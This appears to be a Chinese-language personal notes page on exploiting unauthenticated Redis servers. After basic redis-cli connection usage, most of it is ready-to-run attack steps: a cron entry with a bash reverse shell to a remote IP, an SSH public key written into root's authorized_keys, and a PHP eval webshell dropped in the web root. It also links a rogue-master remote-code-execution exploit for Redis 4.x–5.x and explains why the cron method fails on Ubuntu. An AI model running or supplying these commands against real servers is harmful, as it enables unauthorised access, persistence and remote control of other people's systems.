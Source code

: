 # Redis客户端

```
sudo apt update
sudo apt install redis-tools
---
gui
https://github.com/qishibo/AnotherRedisDesktopManager

redis-cli -h 127.0.0.1
```

![](https://img.mi3aka.eu.org/2022/08/a1244184910709658599795a50317189.png)

`redis-cli -h your_host -p 6379 -a "pass" --raw`

`-h` 远程连接的主机

`-p` 远程连接的端口

`-a` 密码

`--raw` 解决中文乱码

# 计划任务反弹shell

```
#反弹shell
set getshell "\n* * * * * bash -i >& /dev/tcp/ip/7000 0>&1\n"
#计划任务路径 ubuntu/debian
config set dir /etc/cron.d
#保存为test文件
config set dbfilename test
#保存
save
```

![](https://img.mi3aka.eu.org/2022/08/8fbe7a6b8aeabf44cd824d24412030fb.png)

![](https://img.mi3aka.eu.org/2022/08/f7263ca7275e6ad8b8fa62877ef8bdba.png)

![](https://img.mi3aka.eu.org/2022/08/e75f82a956bdf1bc2b90f1904ecead3e.png)

>无法正常反弹原因

计划任务中存在乱码，也就是这些乱码导致计划任务执行错误。
这是由于redis向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos会忽略乱码去执行格式正确的任务计划，而ubuntu并不会忽略这些乱码，所以导致命令执行失败，因为自己如果不使用redis写任务计划文件，而是正常向/etc/cron.d目录下写任务计划文件的话，命令是可以正常执行的，所以还是乱码的原因导致命令不能正常执行，而这个问题是不能解决的，因为利用redis未授权访问写的任务计划文件里都有乱码，这些代码来自redis的缓存数据。

# 写入ssh公钥

```
set sshpubkey "\n\nssh-rsa AAAAB3Nzaxxx\n\n"

config set dir /root/.ssh

config set dbfilename authorized_keys

save
```

![](https://img.mi3aka.eu.org/2022/08/cb1a6d3734c8f4506001219f2b49c775.png)

![](https://img.mi3aka.eu.org/2022/08/b835023633794da2ed81ddb461e8ae69.png)

# 写入webshell

```
config set dir /var/www/html/
config set dbfilename webshell.php
set x '<?php @eval($_GET["cmd"]);phpinfo();?>'
save
```

# Redis主从复制导致的命令执行

影响版本4.x-5.x

1. 直接使用exp

https://github.com/n0b0dyCN/redis-rogue-server

2. 本地利用Redis主从复制RCE

# Redis Lua沙盒绕过命令执行

>todo